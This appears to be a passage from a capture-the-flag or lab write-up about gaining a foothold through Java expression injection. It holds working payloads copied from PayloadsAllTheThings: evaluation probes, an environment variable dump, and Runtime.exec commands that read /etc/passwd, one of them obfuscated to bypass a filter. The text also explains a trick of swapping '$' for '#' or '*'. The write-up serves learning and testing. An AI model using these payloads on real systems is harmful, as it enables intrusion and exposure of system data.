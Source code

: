 Look like it vulneable with character `#` and `*`.
# Foothold
Go to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) to find injection with Java. The tips is we need to use `#` or `*` to bypass the filter.

## Java

### Java - Basic injection
>Multiple variable expressions can be used, if `${...}` doesn't work try `#{...}`, `*{...}`, `@{...}` or `~{...}`.

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```


### Java - Retrieve the system’s environment variables
```java
${T(java.lang.System).getenv()}
```

### Java - Retrieve /etc/passwd
```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

As the note at begin, we should replace the `$` with `#` or `*` to test.

We found somethings interest with `*`.
